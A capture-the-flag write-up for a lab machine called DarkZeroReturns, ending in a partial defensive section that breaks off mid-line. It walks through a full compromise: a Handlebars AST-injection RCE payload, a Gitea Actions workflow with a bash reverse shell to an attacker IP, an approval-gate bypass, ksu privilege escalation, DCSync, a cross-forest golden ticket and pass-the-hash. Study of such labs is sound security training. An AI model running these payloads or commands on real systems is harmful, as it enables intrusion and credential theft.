# DarkZeroReturns

```
Target: dzcampaigns.htb (10.XXX.XX.XXX)
Internal AD: darkzero.ext (172.16.20.0/24) <-> darkzero.htb (cross-forest trust)
OS: Linux (edge) / Windows (Domain Controllers)
Difficulty: Hard
Key Concepts: Handlebars AST Injection, Credential Reuse, Kerberos/SOCKS Tunneling,
              Gitea Actions CI Bypass, ksu Local Privesc, DPAPI-free DA Recovery,
              Cross-Forest Golden Ticket + SID History, DCSync, Pass-the-Hash.
```

## Summary of Attack Chain

| Step | User / Access     | Technique Used                                   | Result                                                                                                  |
|:----:|:------------------|:----------------------------------------------------|:-----------------------------------------------------------------------------------------------------------|
|  1   | `N/A`              | **Nmap Recon**                                    | Identified only 22/tcp and 80/tcp exposed; 302 redirect revealed vhost `dzcampaigns.htb`.                  |
|  2   | `N/A`              | **Web Enumeration (ffuf)**                        | Found `login`, `register`, `dashboard`, `essentials`, `dice` routes on a Node/Express D&D campaign app.    |
|  3   | `N/A`              | **CVE-2026-33937 - Handlebars AST Injection**     | `POST /character/:id` compiled a hand-built AST object instead of a template string, yielding blind RCE.   |
|  4   | `darkzero`         | **App `.env` + DB Dump**                          | Recovered DB creds and bcrypt hashes for `admin`, `josh`, and app users via RCE + `mysql` client.           |
|  5   | `darkzero`         | **Hash Cracking (John)**                          | Cracked `josh`'s bcrypt hash -> `RaXXXXXX`.                                                                  |
|  6   | `josh`             | **Credential Reuse -> SSH**                        | `RaXXXXXX` reused for the domain account `DARKZERO.EXT\josh`; SSH access to SRV01 obtained.                 |
|  7   | `josh`             | **SOCKS Tunnel + Kerberos Setup**                 | Tunneled into `172.16.20.0/24`; fixed `krb5.conf` (`udp_preference_limit=1`) for TCP-only Kerberos.          |
|  8   | `josh`             | **Gitea Kerberos/SPNEGO Auth**                    | Authenticated to Gitea (v1.25.0) as `darkzero-ext_josh`, confirmed `RepoAudit` pull-only access.             |
|  9   | `josh`             | **Fork + Gitea Actions Workflow**                 | Forked `DarkZero/DarkZero-Campaigns`, added a reverse-shell workflow via the Gitea Contents API.             |
|  10  | `josh`             | **CI Approval-Gate Bypass**                       | Opened a PR, then fired a `pull_request_review` event - bypassing the fork-PR approval gate entirely.       |
|  11  | `svc-runner`       | **RCE via Gitea Actions Runner**                  | Reverse shell landed as `svc-runner` on SRV01; `user.txt` retrieved.                                        |
|  12  | `svc-runner`       | **LDAP `CREATE_CHILD` Abuse**                     | Created a new AD user literally named `root` in the delegated `OU=GiteaMigration`.                          |
|  13  | `root` (AD)        | **`ksu` + `krb5_aname_to_localname` Abuse**       | `ksu root -n root@DARKZERO.EXT` mapped the AD principal to the local `root` account - **local root on SRV01**. |
|  14  | `root` (SRV01)     | **Leaked SQL Backup**                             | `/root/darkzero_campaigns_backup.sql` contained a bcrypt hash for `celia`, absent from the live app DB.      |
|  15  | `celia`            | **Hash Cracking (John)**                          | Cracked `celia`'s hash -> `babXXXXXXX`; confirmed as a real **Domain Admin** on `darkzero.ext`.                |
|  16  | `celia`            | **DCSync - `darkzero.ext`**                       | Full domain credential dump via `impacket-secretsdump -just-dc`, including `krbtgt` AES256 key.              |
|  17  | `celia`            | **Cross-Forest Golden Ticket + SID History**      | Forged a golden ticket with an Extra-SID (RID ≥ 1000) for `InfrastructureAdministrators` in `darkzero.htb`.  |
|  18  | `celia` (forged)   | **Cross-Realm Referral (`impacket-getST`)**       | Obtained a service ticket for `cifs/dc01.darkzero.htb`, honored due to `TREAT_AS_EXTERNAL` SID filtering.    |
|  19  | `celia` (forged)   | **Registry Hive Backup (`SeBackupPrivilege`)**    | Patched impacket's `crealm` bug to back up SAM/SYSTEM/SECURITY hives on DC01 via nested Backup Operators.     |
|  20  | `attacker`         | **Local Hive Parsing**                            | Extracted the `DC01$` machine-account NT hash from the downloaded hives.                                    |
|  21  | `DC01$`            | **DCSync - `darkzero.htb`**                       | Used the machine hash (NTLM, no Kerberos needed) to DCSync and recover the forest Administrator's NT hash.   |
|  22  | `Administrator`    | **Pass-the-Hash / WinRM**                         | `nxc winrm` PtH to DC01 as `darkzero.htb\Administrator` - **root.txt** retrieved.                            |




Let's start with the initial recon against the edge host.

### Nmap Scan Summary

**Target:** `10.XXX.XX.XXX`
**Hostname:** `dzcampaigns.htb` (edge Linux, `SRV01`, domain-joined to `DARKZERO.EXT`)
**Scan:** `nmap --privileged -p- --min-rate 3000 -Pn`

[nmap_results.nmap](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/nmap_results.nmap  "Results")


| Port  | Service | Version / Information                                  |
|:--:|:--|:|
| `22`  | SSH     | OpenSSH 9.6p1 Ubuntu 3ubuntu13.18                        |
| `80`  | HTTP    | nginx 1.24.0 (Ubuntu) -> 302 redirect to `dzcampaigns.htb` |

Only two ports are exposed through HTB NAT. The rest of the estate - Active Directory, Gitea, WinRM - lives on the internal `172.16.20.0/24` range and is only reachable after a pivot through SSH.

```text
10.XXX.XX.XXX
│
├── 22   SSH  (OpenSSH 9.6p1)
└── 80   HTTP (nginx 1.24.0) -> 302 -> http://dzcampaigns.htb/
```






### `/etc/hosts`

```bash
echo "10.XXX.XX.XXX dzcampaigns.htb" | sudo tee -a /etc/hosts
curl -sI http://dzcampaigns.htb/
```

```
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Content-Type: text/html; charset=utf-8
Set-Cookie: dz.sid=...; HttpOnly; SameSite=Lax
```

### Web Enumeration

```bash
ffuf -u http://dzcampaigns.htb/FUZZ -w raft-medium-directories.txt -t 80 -fc 404
```

```
css       [301]
js        [301]
img       [301]
fonts     [301]
register  [200]
login     [200]
dashboard [302]  -> redirects to /login (auth required)
essentials[200]
dice      [200]
```



`essentials` and `dice` are custom app routes for a D&D-themed campaign manager - the most likely place for custom application logic bugs. No additional vhosts were found via vhost fuzzing.


## Initial Access - CVE-2026-33937 (Handlebars AST Injection)

### Discovering the Vulnerable Endpoint

Registering an account and creating a character revealed a **"Custom Campaign Message"** field whose placeholder literally showed a Handlebars template:

```
A new face emerges! The {{race}} {{class}} {{name}} has joined the campaign...
```








The browser's edit form (`POST /character/:id`) sends `application/x-www-form-urlencoded`, but the underlying Express route also accepts **JSON**. Critically, `Handlebars.compile()` accepts a pre-parsed **AST object** in addition to a template string - bypassing the parser's own sanitization entirely if the caller supplies a hand-built AST.

### Understanding the AST Shape

```javascript
// gen_ast.js
const Handlebars = require('handlebars');
console.log(JSON.stringify(Handlebars.parse('{{lookup this 1}}'), null, 2));
```

This reveals the exact `NumberLiteral` node shape:

```json
{ "type": "NumberLiteral", "value": 1, "original": 1, "loc": {...} }
```

### Confirming Raw Interpolation Locally

```bash
node -e "
const Handlebars = require('handlebars');
const ast = Handlebars.parse('{{lookup this 1}}');
ast.body[0].params[1].value = '999';
console.log(Handlebars.precompile(ast));
"
```


The compiled output showed `999` interpolated **unquoted** into the generated JS:

```js
lookupProperty(helpers,"lookup").call(depth0, depth0, 999, {"name":"lookup", ...})
```

Confirmed: `NumberLiteral.value` is embedded as raw JavaScript, not string-escaped. This is a genuine template-compilation-time code injection.

### Building the Breakout Payload

```
1,{}) + global.process.mainModule.require('child_process').execSync('id').toString()) //
```





- Closes the original `.call(...)` cleanly with `,{})`
- Appends the RCE call, concatenated with `+`
- An extra `)` closes the outer `escapeExpression(...)` wrapper
- Trailing `//` comments out the rest of the generated line

> [!warning] Dead end
> `process.getBuiltinModule('child_process')` - a newer Node API - does not exist on the box's Node build. `global.process.mainModule.require('child_process')` is the working alternative.

### `rce.py` - Full Exploit

The final exploit scrapes the CSRF token from `/character/:id/edit`, POSTs a JSON body (not form-encoded) containing the malicious AST as `campaign_message`, and includes both the `_csrf` field **and** an `X-CSRF-Token` header - both were required against this app's CSRF middleware. `campaign_id` also had to be present in the body or the handler crashed before reaching the compile step.



[nmap_results.nmap](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/rce.py "Results")


```bash
python3 rce.py 'id'
```

```
[+] Payload injected (HTTP 200)
[*] Triggering Handlebars render at http://dzcampaigns.htb/campaign/1
============================================================
uid=996(darkzero) gid=987(darkzero) groups=987(darkzero)
============================================================
```

Blind HTTP RCE confirmed as the dedicated service account `darkzero` (`nologin` shell, `NoNewPrivileges` - ruling out SUID-based local privesc from this context).




## Post-Exploitation -> Active Directory

### App Secrets

```bash
python3 rce.py 'cat /opt/DarkZero_Campaigns/.env'
```



```
DB_PASSWORD=C4ntFXXXXXXXXXXXX
SESSION_SECRET=DarkSXXXXXXXX
DB_NAME=darkzero_campaigns
```

### Dumping the Users Table

```bash
set +H   # disable bash history expansion (the '!' in the DB password breaks it otherwise)
python3 rce.py "mysql -u darkzero -p'C4ntFXXXXXXXXXXXX' darkzero_campaigns -e 'SELECT * FROM users;'"
```




```
id  email                    username   password_hash                                                  role
1   admin@dzcampaigns.htb    admin      $2b$10$HDdWzYvp1IWFD9TB4JsuCerlh.vKchv/XXXXXXXXXXXXXXXXXXXXXX   admin
3   josh@dzcampaigns.htb     josh       $2b$10$kX7QPjPIQI5hxJWV4a0HpO7UcdstuwLxP51XXXXXXXXXXXXXXXXXXX   player
```

### Cracking `josh`

```bash
echo 'josh:$2b$10$kX7QPjPIQI5hxJWV4a0HpO7UcdstuwLxP51LhXXXXXXXXXXX' > josh_hash.txt
john --wordlist=/usr/share/wordlists/rockWe.txt josh_hash.txt
```

```
RaXXXXXX  (josh)
```

`admin`'s hash did not crack against rockWe - not part of the intended path.




### Credential Reuse -> SSH

```bash
ssh josh@10.XXX.XX.XXX
# password: RaXXXXXX
id
```

```
uid=780601110(josh) gid=780600513(domain users) groups=780600513(domain users),780601111(repoaudit)
```

The `780600000+` UID range confirms `josh` is resolved via **sssd/winbind** - a real domain account (`DARKZERO.EXT\josh`), with the app's DB password reused verbatim for AD authentication.

`sudo -l` for `josh` returned empty - no local privesc path from here. The escalation route runs entirely through the domain.

### Tunneling Into the Internal Network

```bash
ip a          # SRV01: eth0 172.16.20.3/24
cat /etc/resolv.conf   # nameserver 172.16.20.2 (DC02), search darkzero.ext

ssh -D 1080 -N josh@10.XXX.XX.XXX     # dynamic SOCKS tunnel, kept alive in a separate terminal
```





**Topology (by hostname, never by IP - internal net is 172.16.20.0/24 for both forests):**

| Host  | Role                                                        |
|-----|-----------------------------------------------------------------------|
| SRV01 | Edge Linux, domain-joined to `DARKZERO.EXT`, `172.16.20.3`   |
| DC02  | DC of `DARKZERO.EXT` - Gitea `:3000`, LDAP/Kerberos, `172.16.20.2` |
| DC01  | DC of `DARKZERO.HTB` (separate forest), `172.16.20.1`         |

A bidirectional, transitive forest trust connects `DARKZERO.EXT` and `DARKZERO.HTB` - the eventual pivot point for cross-forest escalation.





### Kerberos Configuration - The UDP Gotcha

`kinit` initially failed with `Cannot find KDC for realm` and, after fixing `/etc/krb5.conf`, with `Cannot contact any KDC` - despite the SOCKS tunnel working fine for HTTP/LDAP. **Root cause:** Kerberos defaults to UDP for KDC communication, and SOCKS proxies can only tunnel TCP. The fix:

```ini
# /etc/krb5.conf
[libdefaults]
    default_realm = DARKZERO.EXT
    dns_lookup_realm = false
    dns_lookup_kdc = false
    rdns = false
    udp_preference_limit = 1        # <-- force TCP-only Kerberos

[realms]
    DARKZERO.EXT = { kdc = dc02.darkzero.ext }
    DARKZERO.HTB = { kdc = dc01.darkzero.htb }

[domain_realm]
    .darkzero.ext = DARKZERO.EXT
    .darkzero.htb = DARKZERO.HTB
```




```bash
echo RaXXXXXX | proxychains4 -q kinit josh@DARKZERO.EXT
klist
```




```
Valid starting       Expires              Service principal
08/16/2026 18:05:17  08/17/2026 04:05:17  krbtgt/DARKZERO.EXT@DARKZERO.EXT
```






With this fix, LDAP over GSSAPI worked immediately:

```bash
LDAPSASL_NOCANON=yes ldapsearch -H ldap://dc02.darkzero.ext -Y GSSAPI -N \
  -b "DC=darkzero,DC=ext" "(sAMAccountName=josh)" sAMAccountName
```

`LDAPSASL_NOCANON=yes` is required because `ldapsearch` otherwise canonicalizes the target hostname (sometimes to `localhost`) before requesting a service ticket, breaking the SPN lookup.

> [!note] Gitea's Kerberos negotiation is picky
> Even with correct clock skew handling (`faketime`) and valid tickets, curl/Python GSSAPI clients could not reliably complete Gitea's multi-round SPNEGO handshake through the SOCKS tunnel (`AcceptOrContinue failed: Negotiation should continue` / `Message stream modified`). **The fix was simply to run Kerberos-authenticated requests natively from SRV01** (a real domain member with sssd) instead of proxying GSSAPI from the attacker box. This is consistent with the intended methodology - SRV01 is meant to be the vantage point for domain interaction.

### Gitea Access - `josh`

```bash
# on SRV01
echo RaXXXXXX | kinit josh@DARKZERO.EXT
curl -s --negotiate -u : http://gitea.darkzero.ext:3000/api/v1/user
```

[foxyproxy-darkzero.json](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/foxyproxy-darkzero.json "Results")
[gcookies.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/gcookies.txt "Results")

```json
{"login":"darkzero-ext_josh","is_admin":false,"username":"darkzero-ext_josh"}
```

```bash
curl -s --negotiate -u : http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns
```

```json
"permissions":{"admin":false,"push":false,"pull":true}
```

`josh` (via `RepoAudit` group membership) has **pull-only** access to the private `DarkZero/DarkZero-Campaigns` repo, which has Actions enabled.


## CI/CD Pivot - Gitea Actions Approval-Gate Bypass

### The Block

Forking the repo and adding a malicious `postinstall`/workflow on a PR triggers the `pull_request` event - but Gitea requires a write-permission maintainer to approve workflow runs from a non-writer's fork PR. `josh` has only `actions:read`. **Blocked.**

### The Bypass - `pull_request_review` Event

The approval gate (`ifNeedApproval()`) is only well-tested for the `pull_request` event. **Each event listed in a workflow's `on:` block fires its own independent Actions run.** Widening the trigger list and firing via a PR *review* sidesteps the gate entirely.






**Fork the repo:**
```bash
curl -s --negotiate -u : -X POST \
  http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/forks \
  -H "Content-Type: application/json" -d '{}'
```





**Push the malicious workflow via the Gitea Contents API** (git-over-HTTP has no Kerberos support here - only Basic auth for the git backend, and the account is SSO-only, so `git clone` fails; the Contents API sidesteps this entirely):

```bash
WORKFLOW_CONTENT=$(cat << 'EOF' | base64 -w0
on: [push, pull_request, pull_request_target, issue_comment, pull_request_review, pull_request_review_comment]
jobs:
  ci:
    runs-on: ubuntu
    steps:
      - run: bash -c 'bash -i >& /dev/tcp/10.10.17.121/4445 0>&1'
EOF
)

curl -s --negotiate -u : -X PUT \
  "http://gitea.darkzero.ext:3000/api/v1/repos/darkzero-ext_josh/DarkZero-Campaigns/contents/.gitea/workflows/ci.yml" \
  -H "Content-Type: application/json" \
  -d "{\"content\":\"$WORKFLOW_CONTENT\",\"message\":\"update ci\",\"branch\":\"main\",\"sha\":\"$CURRENT_SHA\"}"
```

**Open a PR back to upstream:**
```bash
curl -s --negotiate -u : -X POST \
  "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls" \
  -H "Content-Type: application/json" \
  -d '{"title":"test update","head":"darkzero-ext_josh:main","base":"main"}'
```

```json
{"number":1, ...}
```




**Fire a `pull_request_review` event on the PR** (bypasses the gate - no pending state, no maintainer approval needed):

```bash
curl -s --negotiate -u : -X POST \
  "http://gitea.darkzero.ext:3000/api/v1/repos/DarkZero/DarkZero-Campaigns/pulls/1/reviews" \
  -H "Content-Type: application/json" \
  -d '{"event":"COMMENT","body":"looks good"}'
```





```bash
# listener on attacker box
nc -lvnp 4445
```




```
connect to [10.10.17.121] from (UNKNOWN) [10.XXX.XX.XXX] 55230
svc-runner@SRV01:~/.cache/act/37b5691113ea0f0b/hostexecutor$
```

### User Flag

```bash
id
# uid=780601113(svc-runner) gid=780600513(domain users) groups=domain users,servicehandler(780601114)
cat /home/svc-runner/user.txt
```

```
9062eb52cad4a...
```

> [!bug] `$HOME` trap inside an Actions job
> Inside the Actions runner, `$HOME` points at the runner workdir, not the real home directory - the absolute path (`/home/svc-runner/user.txt`) is required.




## Privilege Escalation

### svc-runner -> Local Root on SRV01 (`ksu` + AD principal `root`)

```bash
id
# groups: domain users, servicehandler
ls -la $(readlink -f $(which ksu))
# -rwsr-xr-x root root /usr/bin/ksu.mit   (SUID)

ldapsearch -H ldap://dc02.darkzero.ext -Y GSSAPI -N -b "DC=darkzero,DC=ext" \
  "(objectClass=organizationalUnit)" dn
```

```
dn: OU=GiteaMigration,DC=darkzero,DC=ext
```







`svc-runner` has delegated **`CREATE_CHILD`** on this OU, discovered through its native GSSAPI ticket (no manual `kinit` required - the service account already has a valid session). The SUID `ksu.mit` (MIT Kerberos `su`) maps a Kerberos principal to a local account; with **no `/root/.k5login`**, it falls back to `krb5_aname_to_localname`. For a principal literally named `root`, that resolves to the local `root` account.

**Create the AD user:**

```bash
python3 -c "
import base64
pwd = '\"P@ssw0rdRoot123!\"'
print(base64.b64encode(pwd.encode('utf-16-le')).decode())
"
# IgBQAEAAcwBzAHcAMAByAGQAUgBvAG8AdAAXXXXXXXXXX
```




```ldif
dn: CN=root,OU=GiteaMigration,DC=darkzero,DC=ext
changetype: add
objectClass: user
sAMAccountName: root
userPrincipalName: root@darkzero.ext
unicodePwd:: IgBQAEAAcwBzAHcAMAByAGQAUgBvAG8AdAAxADXXXXXXXXXXXX
userAccountControl: 512
```




```bash
LDAPSASL_NOCANON=yes ldapmodify -H ldap://dc02.darkzero.ext -Y GSSAPI -f root_user.ldif
```

```
adding new entry "CN=root,OU=GiteaMigration,DC=darkzero,DC=ext"
```


**Become root:**

```bash
echo "P@ssw0rdRoot123!" | kinit root@DARKZERO.EXT
klist
ksu root -n root@DARKZERO.EXT
```


```
Authenticated root@DARKZERO.EXT
Account root: authorization for root@DARKZERO.EXT successful
Changing uid to root (0)
root@SRV01:/home/svc-runner#
```



> [!bug] `ksu` gotchas
> Without `-n <principal>` We get `account root: authorization failed`. `ksu root -e <cmd>` fails with a broken PATH resolution - use `ksu` interactively, not with `-e`.

### Root SRV01 -> Domain Admin on `darkzero.ext` (celia)

```bash
ls -la /root/
grep -i "celia" /root/darkzero_campaigns_backup.sql
```

```
INSERT INTO `users` VALUES (2,'celia.p@dzcampaigns.htb','celia','$2b$10$2L.IKTOkBtwtWuKcAF/VJ.kUKiBHLQ8hPeg2KYJJXFOUdga2iLsoC','player','2026-04-20 17:20:14');
```




`celia` exists in this old backup but is **absent from the live app DB** - she's a real AD Domain Admin whose account predates the current app deployment.

```bash
echo 'celia:$2b$10$2L.IKTOkBtwtWuKcAF/VJ.kUKiBHLQ8hPegXXXXXXXXFOUdga2iLsoC' > celia_hash.txt
john --wordlist=/usr/share/wordlists/rockWe.txt celia_hash.txt
```

```
babXXXXXXX  (celia)
```





```bash
export KRB5CCNAME=/tmp/celia_ccache
echo babXXXXXXX | kinit celia@DARKZERO.EXT
```

```bash
proxychains4 -q impacket-secretsdump 'darkzero.ext/celia:babXXXXXXX@dc02.darkzero.ext' -just-dc
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6a2bdd03aa4dc9ff2c4f19860e380618:::
krbtgt:502:...:8beaf5f950fefe79f608390a806d29a7:::
darkzero.ext\celia:1109:...
krbtgt:aes256-cts-hmac-sha1-96:8daff56ad74584679edcbf648a690e3a6cd1e03b8703fb890c9b603cc3a80fe6
```





Full DCSync of `darkzero.ext` confirms Domain Admin - and, critically, gives us the `krbtgt` AES256 key needed to forge a cross-forest golden ticket.


### Cross-Forest Golden Ticket with SID History -> DC01 Registry Backup

```bash
proxychains4 -q impacket-lookupsid 'darkzero.ext/celia:babXXXXXXX@dc02.darkzero.ext' | head -5
# Domain SID is: S-1-5-21-2850783758-1231244658-XXXXXXXXXXXXXXXX
```




Trust attributes confirmed via LDAP:

```
trustPartner: darkzero.htb
trustDirection: 3      (bidirectional)
trustType: 2           (forest trust)
```

The `.ext ⇄ .htb` trust degrades cross-forest SID filtering to *external-trust* rules - well-known SIDs (RID < 1000) are filtered, but **SIDs with RID ≥ 1000 from the source forest survive the cross.** Target: the `InfrastructureAdministrators` group in `.htb` (nested in the otherwise-empty `Backup Operators`).





```bash
LDAPSASL_NOCANON=yes ldapsearch -H ldap://dc01.darkzero.htb -Y GSSAPI -N \
  -b "DC=darkzero,DC=htb" "(sAMAccountName=InfrastructureAdministrators)" objectSid
```

Decoding the returned binary SID:

```python
S-1-5-21-2899195410-1848524783-1547768515-1603   # RID 1603 >= 1000, survives filtering
```






**Forge the golden ticket** (must be forged under the same clock as it will be presented - see the faketime note below):

```bash
TS=$(TZ=UTC date -u -d "-67 minutes" "+%Y-%m-%d %H:%M:%S")   # local clock ran ~67 min ahead of the DC

TZ=UTC faketime "$TS" impacket-ticketer \
  -aesKey 8daff56ad74584679edcbf648a690e3a6cd1e03b8703fb890c9b603cc3a80fe6 \
  -domain-sid S-1-5-21-2850783758-1231244658-2051857529 \
  -domain darkzero.ext \
  -extra-sid S-1-5-21-2899195410-1848524783-1547768515-1603 \
  -user-id 1109 \
  celia
```

[celia.ccache](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/celia.ccache "Results")



> [!warning] Clock skew is not optional here
> The attacker host ran ~67 minutes ahead of the domain. Forging the ticket under real time and then presenting it under `faketime` produces `KRB_AP_ERR_TKT_NYV` ("ticket not yet valid") - the ticket's start time appears to be in the future relative to the faked clock. **Forge and present under the identical `faketime` value.**

**Manual cross-realm hop** (impacket's `getST` handles the referral chain automatically once the golden TGT is in the ccache):

```bash
export KRB5CCNAME=$(pwd)/celia.ccache
TZ=UTC proxychains4 -q faketime "$TS" impacket-getST -k -no-pass \
  -spn cifs/dc01.darkzero.htb \
  darkzero.ext/celia
```

```
[*] Saving ticket in celia@cifs_dc01.darkzero.htb@DARKZERO.HTB.ccache
```

[celia@cifs_dc01.darkzero.htb@DARKZERO.HTB.ccache](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/celia@cifs_dc01.darkzero.htb@DARKZERO.HTB.ccache "Results")





This service ticket carries our injected `InfrastructureAdministrators` SID onto `darkzero.htb`.

**Registry hive backup via `SeBackupPrivilege`:**

```bash
export KRB5CCNAME=$(pwd)/celia@cifs_dc01.darkzero.htb@DARKZERO.HTB.ccache
TZ=UTC proxychains4 -q faketime "$TS" impacket-reg -k -no-pass \
  -dc-ip 172.16.20.1 -target-ip 172.16.20.1 \
  'darkzero.htb/celia@dc01.darkzero.htb' backup -o 'C:\Windows\Temp'
```


This initially failed with `STATUS_MORE_PROCESSING_REQUIRED` - a known impacket bug against cross-realm tickets. `smb3.py`'s `kerberosLogin()` sets the AP-REQ authenticator's `crealm` to the **target** realm (`DARKZERO.HTB`) instead of the **client's actual realm** (`DARKZERO.EXT`, where celia's TGT originates). The DC rejects the AP-REQ because the crealm doesn't match what's embedded in the cross-realm ticket.

**Fix - monkeypatch `SMB3.kerberosLogin` in a wrapper script:**

```python
#!/usr/bin/env python3
# patched_reg.py
import impacket.smb3 as smb3

_orig_kerberosLogin = smb3.SMB3.kerberosLogin

def patched_kerberosLogin(self, user, password, domain='', lmhash='', nthash='',
                           aesKey='', kdcHost=None, TGT=None, TGS=None, useCache=True):
    return _orig_kerberosLogin(self, user, password, domain='DARKZERO.EXT',
                                lmhash=lmhash, nthash=nthash, aesKey=aesKey,
                                kdcHost=kdcHost, TGT=TGT, TGS=TGS, useCache=useCache)

smb3.SMB3.kerberosLogin = patched_kerberosLogin

from impacket.examples import reg
reg.main()
```

```bash
TZ=UTC faketime "$TS" proxychains4 -q python3 patched_reg.py -k -no-pass \
  -dc-ip 172.16.20.1 -target-ip 172.16.20.1 \
  'darkzero.htb/celia@dc01.darkzero.htb' backup -o 'C:\Windows\Temp'
```

[patched_reg.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/patched_reg.py "Results")




[download_hives.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/DarkZeroReturns/download_hives.py "Results")



> [!warning] Second impacket bug - `mutualAuth`
> Enabling `mutualAuth` derives the SMB signing key from the `AP_REP`, which breaks the signing that Server 2025 mandates (`Broken pipe` on `connectTree`). Keep `mutualAuth=False` throughout - this is required for the hive download over `C$` to succeed as well.

SAM/SYSTEM/SECURITY hives were saved to `C:\Windows\Temp` on DC01, then downloaded over `C$` (`mutualAuth=False`) and parsed locally:

```bash
impacket-secretsdump -sam dc01_SAM -security dc01_SECURITY -system dc01_SYSTEM LOCAL
```

```
$MACHINE.ACC: aad3b435...:686dXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```




### `DC01$` -> DCSync on `darkzero.htb`

The machine account's own NT hash lets us DCSync the second forest directly - pure NTLM, no Kerberos, so none of the crealm/faketime issues apply here:

```bash
TZ=UTC faketime "$TS" proxychains4 -q impacket-secretsdump -just-dc-user Administrator \
  'darkzero.htb/DC01$@dc01.darkzero.htb' -hashes ':686dXXXXXXXXXXXXXXXXXXXXXXXXXXXX' -dc-ip 172.16.20.1
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4d470bbXXXXXXXXXXXXXXXXXXXXXXXX:::
```





The `darkzero.htb` forest Administrator's NT hash - recovered without ever touching a plaintext password for this account.


## Root Flag

```bash
proxychains4 -q nxc winrm 172.16.20.1 -u Administrator -H 4d470bbXXXXXXXXXXXXXXXXXXXXXXXX \
  -d darkzero.htb -x 'type C:\Users\Administrator\Desktop\root.txt & hostname & whoami'
```





```
WINRM   172.16.20.1   5985   DC01   [+] darkzero.htb\Administrator:4d470bbXXXXXXXXXXXXXXXXXXXXXXXX (Pwn3d!)
WINRM   172.16.20.1   5985   DC01   bf0dcc0d3f8742e2058a8c75e38014b4
WINRM   172.16.20.1   5985   DC01   DC01
WINRM   172.16.20.1   5985   DC01   darkzero\administrator
```

For an interactive session:

```bash
proxychains4 -q evil-winrm -i 172.16.20.1 -u Administrator -H 4d470bbXXXXXXXXXXXXXXXXXXXXXXXX
```

**`root.txt`**: `bf0dcc0d3f8742e2058a8c75e38014b4`



## Full Attack Chain

```
Recon (22/80, redirect -> vhost dzcampaigns.htb)
  -> CVE-2026-33937 Handlebars AST injection (compile() accepts pre-parsed AST -> raw JS in NumberLiteral.value)
  -> blind HTTP RCE as darkzero (NoNewPrivileges)
  -> .env + users table -> josh bcrypt -> rockWe "RaXXXXXX" (reused in AD)
  -> SSH josh@DARKZERO.EXT -> SOCKS tunnel to 172.16.20.0/24
  -> fix krb5.conf (udp_preference_limit=1) for TCP-only Kerberos through SOCKS
  -> Gitea (v1.25.0) via RepoAudit, natively from SRV01 (Kerberos/SPNEGO worked cleanly there)
  -> fork PR + widened `on:` triggers -> BLOCKED by fork-PR approval gate
  -> BYPASS via pull_request_review event -> independent Actions run, no gate
  -> RCE as svc-runner on SRV01                                    [user.txt]
  -> CREATE_CHILD on OU=GiteaMigration -> create AD user "root" (LDAPSASL_NOCANON)
  -> SUID ksu.mit + no /root/.k5login -> ksu maps "root" -> LOCAL ROOT on SRV01
  -> /root/darkzero_campaigns_backup.sql -> celia (DA) "babXXXXXXX"
  -> DCSync darkzero.ext -> krbtgt.ext AES256
  -> trust FOREST_TRANSITIVE + TREAT_AS_EXTERNAL -> SID filtering degraded (RID>=1000)
  -> Golden Ticket + Extra-SID InfrastructureAdministrators (1603), forged under matching faketime
  -> cross-realm hop (impacket-getST, automatic referral) -> cifs/dc01.darkzero.htb ticket
  -> Backup Operators reg backup of DC01 (patched impacket: forced crealm=DARKZERO.EXT, mutualAuth=False)
  -> secretsdump LOCAL on downloaded hives -> DC01$ hash -> DCSync darkzero.htb -> Administrator NT
  -> WinRM Pass-the-Hash to DC01                                   [root.txt]
```


## Defensive Operations

* **1.1 Definition:** A high-severity chain combining **application-layer RCE via a template-engine AST-injection 0-day**, **credential reuse into Active Directory**, **CI/CD approval-gate logic flaws**, **local privilege escalation via Kerberos name-mapping**, and **cross-forest trust abuse with SID history injection** to achieve full compromise of two Active Directory forests from a single unauthenticated web request.

* **1.2 Impact:** **Full compromise of both `darkzero.ext` and `darkzero.htb` forests.** The adversary progresses from a Node.js web application through a Linux edge host, into AD via password reuse, laterally through Gitea CI/CD, to local root, to Domain Admin, and finally across a forest trust boundary to compromise a second Domain Controller - all without ever obtaining the true Administrator password of either domain.

* **1.3 The Scenario:** An adversary discovers a hand-craftable Handlebars AST injection in a self-hosted D&D campaign manager, achieving RCE as a low-privileged service account. Database credentials, reused verbatim for a domain account, provide SSH access to the same host - which turns out to be domain-joined. From there, a CI/CD approval-gate logic flaw in Gitea Actions is abused to obtain code execution as the pipeline's service account. A Kerberos name-mapping quirk in a SUID `su` binary, combined with a delegated OU permission, escalates that foothold to local root. A leaked historical database backup surfaces a Domain Admin credential absent from the live application, and a misconfigured (`TREAT_AS_EXTERNAL`) inter-forest trust allows SID-history injection to forge access into a second, otherwise-unrelated domain.

### System Architecture & Theory

* **2.1 Protocol Environment:**
  * **Web Application Layer:** Node.js/Express with Handlebars templating, exposed via nginx.
  * **Identity Layer:** Active Directory (`darkzero.ext`), resolved on Linux hosts via sssd/winbind.
  * **CI/CD Layer:** Gitea + Gitea Actions, Kerberos/SPNEGO-authenticated, no local auth fallback.
  * **Privilege Layer:** MIT Kerberos `ksu`, delegated LDAP OU permissions.
  * **Trust Layer:** Forest trust (`darkzero.ext` ⇄ `darkzero.htb`), `TREAT_AS_EXTERNAL` SID filtering.
  * **Authentication Layer:** Kerberos golden tickets, cross-realm referrals, NTLM pass-the-hash.

* **2.2 Attack Logic Flow:**

  > [Handlebars AST RCE] -> [darkzero service acct] -> [.env + DB creds] -> [josh bcrypt cracked] ->
